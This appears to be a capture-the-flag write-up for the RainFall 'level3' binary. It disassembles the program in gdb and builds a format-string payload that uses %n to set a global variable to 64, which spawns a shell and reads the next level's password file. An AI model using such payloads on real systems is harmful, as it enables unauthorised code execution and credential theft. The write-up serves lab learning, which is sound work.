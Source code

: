 # Level 3

```bash 
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3

```

## Testing the program

```bash
$ ./level3
a
a
```

The program displays the input


## Learning more

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.
```

The main calls a function 'v'. 

```bash
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

We see that the value at address 0x804988c is being put in the eax container. 
This value is then compared to 64 (Ox40 in hexadecimal).

```bash
0x080484da <+54>:	mov    0x804988c,%eax
0x080484df <+59>:	cmp    $0x40,%eax
```

Using gdb we can check the name of the variable at 0x804988c

```bash
(gdb) info variables
All defined variables:
[...]
0x0804988c  m
```

If it corresponds to 64 a call to system is made.

```bash
0x08048513 <+111>:	call   0x80483c0 <system@plt>
```

We can also see a call to printf() function wich is vulnerable to exploit.

```bash
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```

## Getting access to the shell

We are going to modify the value of the variable located at 0x804988c so that it equals 64, in order for the program to launch the system to ("bin/sh"). 


### Finding where is our input

First we need to know where our input is located on the stack so we can manipulate the addresses later on. 

```bash 
$ python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
```

61616161 = "aaaa", in hexadecimal.
So our input is at the 4th slot (%4$x) in the stack. 

### Injecting m address

We want to write in the address 0x0804988c, so we pass it as little endian at the beginning of our payload. 

```bash
$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
? 200 b7fd1ac0 b7ff37d0 804988c
```

### Writing into the memory 

%n allows us to write, in an address, the number of characters that have been printed. 
```bash
printf("AAAAA%n", addr);
```
will write 5 (the number of chars before %n) to addr.


### Reaching the 64 value 

We want %n to write 64 in the address 0x804988c.

However we have already 4 characters for the address, so we only need 60 chars to reach the total. 

Final payload : 
```bash
$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
```

Explanation :
```plaintext
\x8c\x98\x04\x08 → adresse de m
"A" * 60 → padding
"%4$n" → écrit le total (64) à l'adresse au 4e emplacement dans la stack (notre adresse injectée)
```

```bash
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami 
level4
cat /home/user/level4/.pass
***************************************
```